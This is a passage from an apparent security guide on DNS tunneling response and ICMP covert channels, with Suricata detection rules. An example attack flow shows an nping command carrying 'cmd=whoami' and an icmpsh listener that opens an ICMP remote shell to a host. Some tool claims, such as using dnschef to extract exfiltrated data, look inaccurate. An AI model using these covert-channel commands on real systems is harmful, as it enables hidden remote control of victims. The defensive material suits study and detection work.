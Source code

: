 
### **Incident Response Playbook**  
**Scenario**: DNS tunneling detected via anomalous TXT record queries.  
1. **Contain**:  
   - Block the attacker’s domain at the DNS firewall.  
2. **Investigate**:  
   - Use `tcpdump` to capture live DNS traffic:  
     ```bash  
     tcpdump -i eth0 -w dns.pcap port 53  
     ```  
   - Extract exfiltrated data with `dnschef`:  
     ```bash  
     dnschef --fakeip 0.0.0.0 --file dns_log.txt  
     ```  
3. **Hunt**:  
   - Search for processes making DNS requests (e.g., `lsof -i :53` on Linux).  

---

## **2. ICMP Covert Channels**  
ICMP (e.g., ping packets) can be weaponized to hide data in payloads or manipulate packet headers.  

### **How It Works**  
- **Mechanism**: Embed data in ICMP Echo Request/Reply payloads.  
  - Example: `ping -p 68656c6c6f (hex for "hello") 192.168.1.100`  
- **Tools**: `icmpsh`, `Loki` (classic ICMP backdoor).  

#### **Example Attack Flow**:  
1. **Attacker** sends ICMP Echo Requests with embedded commands:  
   ```bash  
   nping --icmp -c 1 192.168.1.100 --data-string "cmd=whoami"  
   ```  
2. **Victim** runs a listener (e.g., `icmpsh`) to parse payloads and execute commands:  
   ```powershell  
   icmpsh.exe -t 10.0.0.1 -d 500 -s 128  
   ```  

---

### **Detection Strategies**  
#### **A. Network-Based Detection**  
- **Large ICMP Packets**:  
  - Legitimate `ping` uses 64-byte payloads. Flag oversized packets (e.g., >128 bytes):  
    ```suricata  
    alert icmp any any -> any any (msg:"Oversized ICMP Packet"; dsize:>128; sid:1000004;)  
    ```  
- **Payload Patterns**:  
  - Look for non-random payloads (e.g., ASCII strings in hex):  
    ```suricata  
    alert icmp any any -> any any (msg:"ICMP with ASCII Payload"; content:"|68 65 6C 6C 6F|"; sid:1000005;)  
    ```  
- **Frequency Anomalies**:  
  - A host sending 100+ ICMP packets/second (normal ping is 1-2/sec).  

